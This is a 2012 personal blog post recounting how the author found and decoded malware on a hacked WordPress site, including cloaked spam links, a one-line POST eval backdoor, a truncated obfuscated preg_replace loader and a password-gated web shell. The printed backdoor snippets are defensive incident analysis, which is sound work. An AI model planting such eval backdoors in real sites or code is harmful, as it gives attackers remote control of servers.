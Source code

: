 ```yaml
---
title: Hacked Server
date: 2012-08-23 08:23
layout: article
published: true
---
```


Over the weekend I was informed by a friend that a site I maintain (not mine
personally) was showing up in the Google results as being "malicious". While I
was researching and fixing the problem, I wrote down my thoughts.

---

After hearing this news, I Googled the site's name (it is distinctive, but
shall remain nameless here) and found that it indeed had been flagged by the
Googlebot as having been hacked.

Short backstory: Recently the owners of the site had undergone some serious flack
from a hate group, and had been flagged by this group on the
[Web Of Trust (WOT)](https://www.mywot.com/), a site that warns you of unsafe
websites. The WOT is a really good idea, but this hate group flagged it in
retaliation instead. Because of this, I initially thought that the warning
from Google had set off their alarms, so I didn't take it too seriously.

But throughout the day I had a nagging feeling that not all was right with the
world, and so I found myself signing up for something that (now that I've used
it) I think everyone who ever runs a website should use:
[Google Webmasters](http://www.google.com/webmasters/).

Let me take a minute to tell you why you should be using this awesome tool. First,
it will give you the actual HTML output that Google sees. As I found out later,
the hacked website was *only displaying spam to the Googlebot*, so I never found
it in my other searches. The other reason you should use this tool is because
it will check the status of your installed things (WordPress, etc.) and notify you
when you need to update them. This is incredibly convenient.

After I setup the site with Google Webmasters, I found out that the site
was spewing out things that look like this (of course I renamed the links):

```html
downing <a href="http://site.com">prescription tramadol without</a>
venlafaxine <a href="http://site.com">penegra generic</a>
```

I'm being a little bit of an onscurantist about the sites contents, but suffice to
say that this is definitely not the appropriate content for this site, and at that point
I had to deal with the fact that the server had been compromised.

## The Plan

Typically, a WordPress hack is found by searching for two PHP functions:

* [base64_decode](http://php.net/manual/en/function.base64-decode.php), or
* [eval](http://php.net/manual/en/function.eval.php)

So my initial plan was to search the server for instances of either of those functions using:

```bash
grep -H -r -i 'base64_decode' ~/sitename.com
grep -H -r -i 'eval' ~/sitename.com
```

* `-H` will print the filename instead of the entire line of text where it found the match
* `-r` will search recursively
* `-i` will ignore case (since PHP ignores it we need to do so to have a thorough search)

Doing so brought up quite a few `base64_decode` calls, and many false positives for `eval`
but all of them legitimate. Working with the command line over SSH was difficult, so I
tarred the entire site's contents:

```bash
tar cvzf backup.tgz ~/sitename.com
```

Now I have the files in hand, I can very quickly scan through the files and see if
anything catches my eye, and the very first thing I noticed is the file named `wp_info.php`

WordPress has a very particular naming scheme with all their files, and it looks
like this: `word-word.php` So an underscore looks a little suspicious, and opening
it I find this magical bit:

```php
eval(stripslashes(array_pop($_POST)));
```

That command right there will essentially run _anything_ that is thrown at it by a
POST request. Wow, this is nuts. Also, I don't know why I didn't see it in
the `grep` earlier, but there was probably just too much noise to notice it.

That right there is the likely entry point _after_ the hack, but I want to see
if I can find anything else, so I press on. Even though I am pretty familiar
with the WordPress structure, I downloaded a [fresh WordPress](https://wordpress.org/download/)
install to compare. After browsing around a bit, I found a file in
the `wp-content/uploads` folder named `.cache_tofu.php` that I did not
recognize, and on inspection I found the following at the end of it:

```php
preg_replace("/.*/e","x65x76x61x6c ... x3b",".");
```

Where the dots are I removed about 24,400 characters from the actual thing.
I'm not familiar with the `preg_replace` function, but the
[PHP docs](http://www.php.net/manual/en/function.preg-replace.php)
say it is basically

```php
preg_replace(pattern,replacement,subject)
```

so the code above will interpret to just the middle part:

```
"x65x76x61x6c ... x3b"
```

But if you'll notice, quite a few characters in that set look like `x##` which is the PHP way of
noting characters in [extended unicode](http://www.php.net/manual/en/regexp.reference.unicode.php), so
all you need to do is figure out a way to convert those to normal ASCII and you can read them.

`<sarcasm>`Thankfully`</sarcasm>`, PHP
[plays loose](https://maurus.net/resources/programming-languages/php/)
with the encoding, so we can simply turn it to a string and it will print out. But because
PHP plays loose, you can't do something as simple as `echo "x65x76x61x6c ... x3b";` because
it will actually evaluate whatever is there, assuming it's an `eval` statement, which is
an obvious assumption at this point. So here's what you do:

```php
$myFile = "testFile.txt";
$fh = fopen($myFile, 'w') or die("can't open file");
$stringData = "x65x76 ... x20x3b";
fwrite($fh, $stringData);
fclose($fh);
```

With that, I finally got what I was looking for:

```php
eval(gzinflate(base64_decode('5b19fxq30jD8...
```

This is the standard hack, so now we can unpack the base64 code to see what magic lies
beneath. Again, it probably has some `eval` in it, so just write it to the text file.

Because it uses `gzinflate` we need to do it this way in our above code:

```php
$stringData = gzinflate(base64_decode('5b19f...
```

With that, I get a code that is just over 1,500 lines long:
[pastebin](http://pastebin.com/brR6Jh5f)
or
[hastebin](http://hastebin.com/hipeqoxoho.php).

On reading the code, my jaw hit the floor, and I had to go retrieve
some alcohol to calm my nerves.

---

Alcohol acquired, still a little shook up, going to press on and hope for the best.

So where was I? Oh, right. It is interesting to note that, even within this code, there
are things that are base64 encoded. Upon extracting them, it looks like they are Perl
scripts. Here is one which was labeled `back_connect_p`:
[pastebin](http://pastebin.com/7izktDBV) And here is another which was labeled
`bind_port_p`: [pastebin](http://pastebin.com/7yNrfWT0)

Okay, so this is obviously bad, and in more ways than one: 1) have to look
around for more bad files, 2) based on the script, it would be safe to
assume every password associated with this account (servers, etc.) should
be changed, 3) and I still don't know how this got installed.

Let's start on the last thing first.

So we have this absolutely soul crushing code (did you read it yet? did you understand
how bad it was? it was very bad!) but we don't know how it's run. Looking
at the code, I realized that to run it, all you'd have to do is access it. It's located
in the WordPress uploads folder, so we can simply navigate to it at
`site.com/wp-content/uploads/the_file.php` and we get this:

![Password login of control panel](/article/images/hacked-server/password.png)

Hmmmm. The alcohol is setting in a bit now, and I am starting to feel less like the world
will end, so I am curious what is behind the password?

Looking through the code I find that all it takes is this:

```php
if (md5($_POST['pass']) == 'dcc2630fea8d91fbc38ee0acc48001a6') {
	// execute scary code
}
```

Although rainbow tables and so on exist, I don't have any of that software setup
on this computer, so an md5 lookup is not trivial for me. Instead, I boot up the old
[virtual computer](http://www.unixmen.com/install-lamp-with-1-command-in-ubuntu-1010-maverick-meerkat/)
and run the code directly on a PHP server. Here is the screenshot:

![Control panel](/article/images/hacked-server/control-panel.png)

This is terrible.

So here is what we have so far: There is a script on this site that lets a person
pretty much do what they want.

The question remains, how did the script get there in the first place?

Of course, since I don't operate the site (I was just called in
to clean up the mess) I am not sure what plugins were installed
before, but I am reasonably certain that the people who own the site wouldn't
install a plugin that didn't come from the
[WordPress site](https://wordpress.org/extend/plugins/).

This limits the possible entry points quite a bit.

One weak point in the WP framework shows up if someone changes the folder
permissions of one of the folders. This is addressed quite well in
[this](https://codex.wordpress.org/Changing_File_Permissions)
article. But nobody except myself has SSH access, and only one person
has FTP access. I'll ask him, but he seems reasonably smart so he
probably wouldn't set stupid permissions.

In fact, I can check whether a file is executable or not using `ls -ls` and I can see that
it is not executable. Furthermore, the file itself was last modified in May this year
(2012), although I don't know how long it's been since it was executed. The site
is hosted on a [shared server space](https://dreamhost.com/), which could
even be the problem.

---

At this point I am trying to think of solutions. Since all that's run on this server
is the WordPress install, I can essentially just reinstall the site and verify that
nothing is in the database. The uploads folder can be copied over after I check it.

Being intimately familiar with WordPress I've coached a few people through this
process, and even had to run through it once myself, so I know that it's not too difficult.

Still, the annoyance is huge. And I still don't know what caused the security
breach that allowed that terrible code to get installed.

For tonight I think I have the server locked down enough that I can leave it,
but I think I'll probably reinstall WordPress, it's a pretty fast experience.

## Lesson Learned

You should look for the `eval` function, but you should also look for it
in Unicode, which looks like `x65x76x61x6c`
